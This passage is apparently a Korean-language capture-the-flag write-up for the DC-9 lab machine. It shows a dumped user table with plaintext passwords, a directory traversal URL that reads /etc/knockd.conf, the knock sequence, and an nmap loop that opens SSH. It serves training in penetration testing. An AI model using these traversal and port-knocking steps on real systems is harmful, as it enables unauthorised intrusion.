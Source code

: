result
```
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```
- username 과 password를 후에 사용합니다. 
### hashes.com
![dc9-img2](images/dc9/dc9-2.png)
- hashes.com 에서 hash를 검색한 결과 `transorbital1`이 admin의 비밀번호임을 알 수 있었습니다.


### knockd and Hydra cracking
```
http://target/welcome.php?file=../../../../../../../etc/knockd.conf
```
- admin 권한 사이트에는 directory traversal 취약점이 있었고, knockd를 통해 ssh 포트를 열 수 있었습니다. 

```
[options] UseSyslog 
[openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 
[closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 
```

``` shell
for i in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $i target && sleep 1; done
```
- nmap을 통해 sequence에 맞는 포트로의 syn 요청을 보냅니다.

```
nmap -p 22 target    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 19:48 KST
Nmap scan report for target (192.168.131.209)
Host is up (0.089s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
```
- ssh 포트가 오픈된 것을 확인할 수 있습니다.
